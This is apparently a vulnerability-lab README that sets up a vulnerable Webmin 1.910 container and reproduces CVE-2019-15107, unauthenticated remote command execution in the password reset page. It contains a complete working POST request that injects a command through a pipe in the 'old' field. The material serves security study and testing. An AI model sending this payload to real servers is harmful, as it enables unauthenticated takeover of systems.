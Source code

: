 # Webmin Unauthenticated Remote Code Execution (CVE-2019-15107)

[中文版本(Chinese version)](README.zh-cn.md)
[PT-BR(Portuguese version)](./README.pt-br.md)

Webmin is a web-based system configuration tool for Unix-like systems. The vulnerability exists in the password reset page, which allows unauthenticated users to execute arbitrary commands through a simple POST request.

Referrers:

- https://www.pentest.com.tr/exploits/DEFCON-Webmin-1920-Unauthenticated-Remote-Command-Execution.html
- https://www.exploit-db.com/exploits/47230
- https://blog.firosolutions.com/exploits/webmin/

## Start Vulnerability Application

Start a vulnerable Webmin 1.910 through following command:

```
docker-compose up -d
```

After the environment is started, you can see the login page of Webmin at `https://your-ip:10000`.

## Vulnerability Reproduce

The payload of the reference links is incomplete. After reading the code in depth, I found that command can be executed only if the user parameter of the body doesn't exist before 1.920, upon 1.920, no limit.

In short, sending a following POST request to execute command `id`:

```
POST /password_change.cgi HTTP/1.1
Host: your-ip:10000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Cookie: redirect=1; testing=1; sid=x; sessiontest=1
Referer: https://your-ip:10000/session_login.cgi
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2
```

![](1.png)
